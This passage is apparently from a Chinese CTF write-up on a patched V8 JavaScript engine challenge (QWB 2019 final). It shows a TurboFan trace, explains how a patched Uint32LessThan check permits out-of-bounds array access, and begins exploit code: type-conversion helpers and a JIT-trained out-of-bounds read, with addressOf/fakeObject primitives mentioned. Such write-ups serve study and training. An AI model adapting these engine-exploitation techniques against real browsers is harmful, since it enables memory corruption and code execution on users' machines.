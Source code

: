 ```
root@ubuntu:~/Desktop/qwb2019-final-groupupjs/x64.debug# ./d8 1.js --trace-turbo --trace-turbo-path ../
Concurrent recompilation has been disabled for tracing.
---------------------------------------------------
Begin compiling method opt using TurboFan
---------------------------------------------------
Finished compiling method opt using TurboFan
---------------------------------------------------
Begin compiling method  using TurboFan
---------------------------------------------------
Finished compiling method  using TurboFan
-1.1885946300594787e+148
```

这回由于信息不足，不能在`LoadElimination Phase`阶段确定，因此仅检查了最大范围

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01192cf4d59c3c83d0.png)

然后在`SimplifiedLoweringPhase`阶段，用了`Uint32LessThan`，由于`Uint32LessThan`被patch过，因此结果为True，那么就可以越界访问了。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0138511d34d43f8f2a.png)

#### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

构造出一个oob数组后，改写数组对象的MAP，然后构造`addressOf`和`fakeObject`原语。<br>
exp

```
var buf = new ArrayBuffer(0x8);
var dv = new DataView(buf);

function p64f(value1,value2) `{`
   dv.setUint32(0,value1,true);
   dv.setUint32(0x4,value2,true);
   return dv.getFloat64(0,true);
`}`

function i2f64(value) `{`
   dv.setBigUint64(0,BigInt(value),true);
   return dv.getFloat64(0,true);
`}`

function u64f(value) `{`
   dv.setFloat64(0,value,true);
   return dv.getBigUint64(0,true);
`}`


var arr;
var obj_arr;
function opt()`{`
   arr = [1.1,2.2,3.3,4.4];
   obj_arr = [arr];
   var e = `{`a:arr.length`}`;
   return arr[e.a];
`}`


for(var i=0; i &lt; 0x20000; i++)`{`
    opt();
`}`
```